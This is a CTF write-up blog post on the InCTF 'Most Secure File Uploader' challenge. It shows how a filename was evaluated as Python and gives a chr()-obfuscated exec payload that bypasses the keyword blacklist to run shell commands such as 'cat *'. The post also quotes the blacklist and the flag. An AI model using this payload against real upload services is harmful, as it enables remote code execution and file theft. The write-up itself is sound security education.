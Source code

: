 ```yaml
---
layout: post
title: "InCTF: The Most Secure File Uploader"
date: 2018-10-07
excerpt: "From file upload to python RCE. Who would've guessed the solution had to do with the chr() and ord() functions?"
tags: [CTF, Python, Jail]
categories: [CTF, Web]
comments: true
feature: /assets/posts_details/InCTF/File_uploader/header.png
---
```


# InCTF: The Most Secure File Uploader

This was the first challenge I completed on InCTF. The first thing we get is:

![Img](/assets/posts_details/InCTF/File_uploader/intro.png "Img")

So going to the page we check that we need to upload a file.

![Img](/assets/posts_details/InCTF/File_uploader/page.png "Img")

At first I tried to upload a ``.txt`` file but the output was that I needed an image file:

![Img](/assets/posts_details/InCTF/File_uploader/format.png "Img")

With that in mind, I changed my file to mimic a PNG. In order to do that I did two things.

1. I changed the extension from ``.txt`` to ``.png``
2. I added to my file the PNG file header, which is ``89 50 4E 47 0D 0A 1A 0A``.

Then, I tried to upload it again. However, a strange error took place:

![Img](/assets/posts_details/InCTF/File_uploader/error.png "Img")

Mmmmm... That's odd. My filename was ``experiment.png`` and the error, which comes from a python program, indicates that the variable 'name' does not exist. I tried to print something (assuming we were using python 2.x) and so that I didn't get any errors I decided to comment the file extension:

![Img](/assets/posts_details/InCTF/File_uploader/first.png "Img")

Looks like we have some kind of blacklist in which the plus sign is included, so I tried with python 3.x print syntax.

![Img](/assets/posts_details/InCTF/File_uploader/second.png "Img")

And voilà! We managed to get command execution! Our ``A`` was printed after everything else!

Once here, I decided to look at variables in the source code, maybe the flag is there. Nonetheless, ``locals`` was blacklisted and ``dir()`` wasn't useful at all.

![Img](/assets/posts_details/InCTF/File_uploader/third.png "Img")

Nothing. Then, I thought maybe the flag was in an external file, so I tried importing the ``os`` module. But guess what? ``Import`` was blacklisted as well.

### Solution

I finally found a solution to bypass the blacklist and be able to import modules. It consisted basically of using the ``chr()`` function, which turns a decimal integer into its corresponding ASCII character. Checking that it works:

![Img](/assets/posts_details/InCTF/File_uploader/fourth.png "Img")

Then, I decided to use the following code:

```py
list = "import os;os.system('ls')"
command = []
for i in list:
    command.append("chr({})".format(ord(i)))
eval(''.join(command))
```

And it turned out to work!!!

![Img](/assets/posts_details/InCTF/File_uploader/fifth.png "Img")

Now we can only change the command from ``ls`` to ``cat *`` and we'll get the source code of flag and the other two files!

![Img](/assets/posts_details/InCTF/File_uploader/sixth.png "Img")

A noticeable thing is the blacklist and the fact that the script checked if the file had both a valid header and extension.

Blacklist:

``"import|os|class|subclasses|mro|request|args|eval|if|for|\%|
subprocess|file|open|popen|builtins|\+|compile|execfile|from_pyfile|config|local|\`|\||\&|\;|\{|\}"``

Final exploit:

```py
exec(''.join([chr(105),chr(109),chr(112),chr(111),chr(114),chr(116),chr(32),chr(111),chr(115),chr(59),chr(111),chr(115),chr(46),chr(115),chr(121),chr(115),chr(116),chr(101),chr(109),chr(40),chr(39),chr(99),chr(97),chr(116),chr(32),chr(42),chr(39),chr(41)]))#.png
```

And we get our flag: ``inctf{w0w_pyth0n_mad3_my_lif3_s0_3z}``.
